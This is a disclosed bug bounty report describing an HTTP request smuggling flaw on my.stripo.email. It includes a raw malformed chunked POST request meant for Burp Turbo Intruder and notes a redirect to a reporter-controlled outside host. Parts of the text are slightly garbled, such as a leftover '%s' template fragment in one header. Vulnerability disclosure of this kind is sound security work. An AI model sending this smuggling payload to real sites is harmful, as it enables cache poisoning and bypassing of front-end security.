 # HTTP Request Smuggling on my.stripo.email

## Report Details
- **Report ID**: 777651
- **URL**: https://hackerone.com/reports/777651
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-01-18T22:11:41.539Z
- **Disclosed**: 2020-04-10T07:54:00.219Z

## Reporter
- **Username**: codeslayer1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripo

## Vulnerability Information
## Summary:
HTTP request smuggling vulnerabilities arise when websites route HTTP requests through webservers with inconsistent HTTP parsing.
By supplying a request that gets interpreted as being different lengths by different servers, an attacker can poison the back-end TCP/TLS socket and prepend arbitrary data to the next request. Depending on the website's functionality, this can be used to bypass front-end security rules, access internal systems, poison web caches, and launch assorted attacks on users who are actively browsing the site.

## Steps To Reproduce:
I use BurpSuite with the help of the HTTP Smuggler Request plugin to provide POC
1.Run the burp suite turbo intruder on the following request
POST /?aeRg=2056729135 HTTP/1.1
Host: my.stripo.email
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding : chunked
Content-Len%s keep-alive

f
ubvhq=x&e3t5b=x
0


2.The script for the turbo intruder is attached with the name poc.txt
3.301 object responses OK for the post request needed to provide a header response to Location: https://codeslayer137.000webhostapp.com/indeks. php Please see the attached screenshot. (2.png).

## Impact

Impact
an attacker can poison the TCP / TLS socket and add arbitrary data to the next request. Depending on the functionality of the website, this can be used to bypass front-end security rules, internal system access, poison the web cache, and launch various attacks on users who actively activate the site.

Reference: https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

Best regards

CodeSlayer13

## Attachments
- 1.png
- 2.png
- script.txt
